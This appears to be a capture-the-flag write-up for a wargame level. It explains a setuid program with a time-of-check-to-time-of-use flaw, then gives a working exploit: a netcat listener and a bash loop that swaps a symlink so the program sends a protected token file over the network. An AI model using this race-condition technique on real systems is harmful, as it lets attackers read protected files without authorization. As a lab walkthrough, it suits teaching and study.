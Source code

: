 ``` shell
ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

`level10` does following:
1. Checks access rights on the given file;
2. If given file is not readable and writable, exits;
3. Connect to TCP socket with given adress and port 6969;
4. Read the file;
5. Write the file to socket.

There is a exloit called TOCTOU.
The idea behind it is that between `access` call and `open` call a file may change.

We will need 3 terminals:

In the first we will run the program:
``` shell
./level10 /var/tmp/level10_link [IP of your VM]
```

In the second we will open the socket:
``` shell
nc -l 6969
```

In the third we will do actual exploit with following script:
``` shell
#!/bin/bash
rm -f /var/tmp/level10_dummy.txt
touch /var/tmp/level10_dummy.txt

while true
do
ln -fs /var/tmp/level10_dummy.txt /var/tmp/level10_link
ln -fs /home/user/level10/token /var/tmp/level10_link
done
```

This script periodically changes target of link `level10_link`.
If we run the program multiple times, one time we will perform the desired exploit.

**Resources**
https://nanxiao.gitbooks.io/openbsd-netcat-demystified/content/
https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use
https://defcon.ru/os-security/888/